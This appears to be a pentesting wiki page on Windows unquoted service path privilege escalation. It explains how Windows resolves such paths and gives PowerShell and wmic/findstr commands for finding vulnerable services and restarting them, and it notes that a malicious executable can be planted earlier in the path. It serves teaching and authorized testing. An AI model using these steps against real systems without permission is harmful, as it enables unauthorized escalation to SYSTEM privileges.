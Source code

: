 ## Unquoted Service Paths <a href="#unquoted-service-paths" id="unquoted-service-paths"></a>

> _For automated enumeration and exploitation of this vector, see_ [_here_](../../../infra-tools/powerup.md#unquoted-service-paths)_._

1. Each Windows service maps to an executable file.
2. When a service starts, a process is created via the `CreateProcess` function.
3. The first parameter of this function, `IpApplicationName`, specifies the name and, optionally, the executable path. If the latter is an unquoted string that contains spaces, it can be used as a privilege escalation vector due to how Windows interprets the path.&#x20;

For example, `C:\Program Files\My Program\My Service\service.exe` will be interpreted as:

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

We can exploit this by creating a malicious executable in any of the paths before the original one. This will result in the former executing with the same privileges that the service starts with, typically, `LocalSystem`.

{% tabs %}
{% tab title="1. Service Enum" %}
Enumerate the service:

{% code overflow="wrap" %}
```powershell
> Get-CimInstance -ClassName win32_service | Select Name,State,PathName 

Name          State   PathName
----          -----   --------
...
GammaService  Stopped C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
...

# A more efficient cmd alternative
# /i -> case insensitive
# /v -> don't match (outside the Windows dir for permission issues and without quotes)
C:\Users\steve> wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
{% endcode %}

Check service's details, such as the `Run As User:` field:

```powershell
# Check service's details (Run As User:)
> schtasks /query /TN "Uninstaller_SkipUac_dharding" /V /FO LIST
```
{% endtab %}

{% tab title="2. Restart Perms" %}
```powershell
PS C:\Users\steve> Start-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...

PS C:\Users\steve> Stop-Service GammaService
```
{% endtab %}
